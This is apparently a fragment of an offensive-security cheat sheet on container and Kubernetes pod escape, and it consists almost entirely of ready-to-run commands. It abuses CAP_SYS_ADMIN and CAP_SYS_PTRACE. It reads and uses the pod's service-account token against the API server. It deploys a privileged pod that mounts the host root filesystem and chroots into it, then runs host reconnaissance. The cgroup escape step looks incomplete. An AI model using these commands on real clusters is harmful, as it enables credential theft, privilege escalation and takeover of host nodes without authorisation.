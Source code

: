 **Capabilities-based Escape**
```bash
# CAP_SYS_ADMIN abuse
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
echo 1 > /tmp/cgrp/cgroup.procs

# CAP_SYS_PTRACE abuse
gdb -p 1 -batch -ex 'call system("id")'
```

#### Kubernetes Pod Escape

**Service Account Token Abuse**
```bash
# Check service account
cat /var/run/secrets/kubernetes.io/serviceaccount/token
export KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# API server communication
curl -H "Authorization: Bearer $KUBE_TOKEN" \
  --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt \
  https://kubernetes/api/v1/namespaces/default/pods

# Create privileged pod
cat << 'EOF' > /tmp/privpod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: privpod
spec:
  containers:
  - name: privcontainer
    image: ubuntu:latest
    command: ["/bin/bash"]
    args: ["-c", "while true; do sleep 3600; done"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
  hostNetwork: true
  hostPID: true
EOF

kubectl apply -f /tmp/privpod.yaml
kubectl exec -it privpod -- chroot /host bash
```

**Node Host Access**
```bash
# Check for hostPath mounts
mount | grep '/host'
ls -la /host/

# Access host processes
ps aux | head -20

# Host network access
netstat -tulnp
ss -tulnp

```